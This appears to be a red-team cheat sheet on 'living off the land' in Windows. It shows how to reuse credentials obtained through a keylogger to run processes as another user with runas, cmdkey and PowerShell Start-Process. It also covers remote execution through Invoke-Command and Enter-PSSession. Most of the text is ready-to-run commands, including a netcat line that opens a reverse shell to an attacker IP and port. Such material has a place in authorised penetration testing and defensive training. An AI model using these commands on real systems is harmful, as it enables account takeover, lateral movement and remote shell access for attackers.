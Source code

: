 # Living off the Land

## 01 - Command Prompt

Now let's say you have activated a keylogger to monitor the user's keyboard activities and you have got the credentials. Now you want to use credentials as an Administrator or a different user account and it might ask you a password prompt to do so since it was configured without the autologin that was modified in the registry editor.

```
C:\> cmd.exe /c <password> | runas [/profile] /user:<DOMAIN>\<username> cmd.exe
```

If it doesn't work. You can use `cmdkey` to add the credentials then execute it with `runas`.

```
C:\> cmdkey.exe /add:<IP> /user:<username> /pass:<password>

C:\> runas.exe /env /noprofile /savecred /user:[<DOMAIN>\]<username> "<commands>"
```

Delete the credential.

```
C:\> cmdkey.exe /delete:<IP>
```

## 02 - PowerShell

Another method is using powershell to supply with the defined variables and execute with a powershell cmdlet `Start-Process`.

```powershell
PS C:\> $username = '<username>'
$password = '<password>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process -FilePath C:\path\to\shell.exe -NoNewWindow -Credential $credential -WorkingDirectory C:\Users\Public
```

If you have `netcat` that you want to execute that might contain arguments.

```powershell
PS C:\> Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("<attacker_IP>","<attacker_PORT>","-e","cmd.exe") -WorkingDirectory C:\Users\Public
```

You can also execute it remotely.

```powershell
PS C:\> $password = ConvertTo-SecureString "<password>" -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential("<username>", $password)
$computer = "<IP>"
[System.Diagnostics.Process]::Start("<Commands>", $credential.Username, $credential.Password, $computer)
```

Syntax using the `Start-Process`:

```
PS C:\> Start-Process <commands> -ArgumentList (<arg_1>,<arg_2>, <arg_n>) -Verb RunAs

PS C:\> Start-Process cmd.exe -ArgumentList ("/c", "echo", "yes") -Verb RunAs
```

Using the `-NoNewWindow` flag that some programs may open it with a window pop up.

```
PS C:\> Start-Process cmd.exe -NoNewWindow -ArgumentList ("/c", "echo", "yes") -verb runas
```

Or you can remotely authenticate a network shared workstation to interact even further when you need to

```
PS C:\> Invoke-Command -ComputerName <IP> -Credential $credential -ScriptBlock { <commands> }

PS C:\> Enter-PSSession -ComputerName <IP>
```

---
## References

### LOLBAS

- [LOLBAS: cmdkey](https://lolbas-project.github.io/lolbas/Binaries/Cmdkey/)

### Internal All The Things

- [Internal All The Things: Windows Privilege Escalation](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/)